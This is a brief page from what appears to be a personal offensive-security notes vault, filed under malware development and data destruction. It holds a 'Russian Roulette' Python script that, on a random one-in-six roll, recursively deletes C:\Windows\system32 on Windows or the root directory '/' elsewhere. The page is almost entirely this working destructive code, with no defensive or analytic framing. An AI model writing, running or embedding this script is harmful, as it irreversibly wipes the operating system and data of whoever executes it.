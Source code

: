 # Russian Roulette

## Python

```python
import platform
import random
import shutil

def delete_operating_system() -> None:
	if platform.system() == "Windows":
		shutil.rmtree(r"C:\Windows\system32", ignore_errors=True)
	else:
		shutil.rmtree("/", ignore_errors=True)

if __name__ == '__main__':
	gun = [0, 0, 0, 0, 0, 1]
	shot = random.choice(gun)
	
	if bool(shot):
		print("You're dead")
		delete_operating_system()
	else:
		print("Click.")
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Impact/Cross Platform/Malware Development/Data Destruction/Mayhem/Delete Operating System]]